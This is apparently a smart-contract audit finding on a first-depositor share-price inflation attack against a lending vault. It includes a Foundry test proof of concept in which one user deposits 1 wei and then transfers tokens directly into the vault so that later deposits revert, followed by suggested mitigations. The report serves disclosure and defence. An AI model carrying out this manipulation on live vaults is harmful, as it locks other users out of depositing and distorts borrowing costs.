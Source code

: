 minera
# First user can set arbitrary price, which may prevent some users to deposit

## [M] First user can set arbitrary price, which may prevent some users to deposit
### Problem
First user can set share price by sending tokens to the system externally, price can be very high. As result a lot of users will not be able to deposit.
And borrowers will have smaller amount to borrow and higher interest rate to pay, because amount of underlying asset is smaller, because less amount of people are able to deposit.

### Proof of Concept
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testSharePriceManipulation() public{
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);

        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewDeposit(80 ether), 0);
        assertEq(lErc20.previewDeposit(100 ether + 1), 1);

        //bob cannot deposit below share price which can be very expensive
        cheats.expectRevert("ZERO_SHARES");
        cheats.prank(bob);
        lErc20.deposit(80 ether, bob);
    }
```

### Mitigation
Force users to deposit at least some amount in the LToken vault .
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2

